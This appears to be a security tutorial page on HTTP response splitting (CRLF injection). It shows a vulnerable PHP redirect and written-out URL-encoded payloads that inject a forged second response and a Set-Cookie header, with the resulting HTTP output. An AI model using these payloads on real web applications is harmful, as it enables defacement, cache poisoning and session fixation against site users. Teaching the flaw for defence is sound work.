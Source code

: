 # HTTP Response splitting

HTTP Response Splitting or CRLF injection enables various attacks such as web cache poisoning, cross user defacement, 
hijacking pages with sensitive user information and cross-site scripting (XSS). 

If you can inject newline characters into the header, then you can inject new HTTP headers and by injecting an 
empty line, break out of the headers into the message body and write arbitrary content into the application's response.

Url encoding, or double url encoding, etc. may be necessary.

## Attack tree

```text
1 Provide a URL with a complete second response, to be rendered in the browser (OR)
2 Inject HTTP headers into the response (for example a Set-Cookie header)
```

## Examples

### Provide a url with a complete second response

In the application:

    header("Location: {$_GET['url']}");

Normal send request:

    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php

A browser receiving this response transparently requests the new resource (indicated in the Location header), and it 
is the response to this second request that is actually rendered in the browser:
    
    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
    Content-Length: 0

So now you can attack with:
    
    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php%0D%0A%0D%0AHTTP%2F1.1+200+OK%0D%0AContent-Type%3A+text%2Fhtml%0D%0AContent-Length%3A+34%0D%0A%3Chtml%3E%3Cp%3EHacked%3C%2Fp%3E%3C%2Fhtml%3E

And it generates:

    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
     
    HTTP/1.1 200 OK
    Content-Type: text/html
    Content-Length: 34
     
    <html><p>Hacked</p></html>
     
    Content-Length: 0

### Inject Set-Cookie header

Or send:

    http://example.org/redirect.php?url=http%3A%2F%2Fexample.org%2Ftarget.php%0D%0ASet-Cookie%3A+PHPSESSID%3D1234

This results in a response that sets a cookie:

    HTTP/1.1 302 Found
    Server: Apache/1.3.33 (Debian GNU/Linux)
    Location: http://example.org/target.php
    Set-Cookie: PHPSESSID=1234
    Content-Length: 0

And now you know the session identifier.
